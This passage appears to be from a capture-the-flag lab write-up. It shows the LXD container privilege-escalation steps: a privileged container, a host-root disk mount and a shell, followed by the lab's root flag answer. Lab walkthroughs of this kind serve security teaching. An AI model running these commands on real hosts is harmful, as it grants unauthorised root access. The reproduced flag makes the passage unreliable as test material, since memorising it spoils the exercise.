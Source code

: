 			lxc image list
			
			Checking what images are available via the command: lxc image list

			4. Now for the fun bit. Next, we'll run a series of commands which initialize, configure the disks, and start the container. Image name needs to match up with the imported image we'll be using. In the case of the image above, that'd be the myimage alias previously assigned to it. The container name and device name are whatever your heart desires. In my example, I'm naming my container strongbad and the device trogdor.

			lxc init IMAGENAME CONTAINERNAME -c security.privileged=true

			Ex: lxc init myimage strongbad -c security.privileged=true

			lxc config device add CONTAINERNAME DEVICENAME disk source=/ path=/mnt/root recursive=true

			Ex: lxc config device add strongbad trogdor disk source=/ path=/mnt/root recursive=true

			lxc start CONTAINERNAME

			Ex: lxc start strongbad

			lxc exec CONTAINERNAME /bin/sh

			Ex: lxc exec strongbad /bin/sh

			We'll then run just a few more commands to mount our storage and verify we've escalated to root:

			id

			cd /mnt/root/root
	14. What is the value of the root.txt flag?
		THM{FLYNN_LIVES} - "cat root.txt"
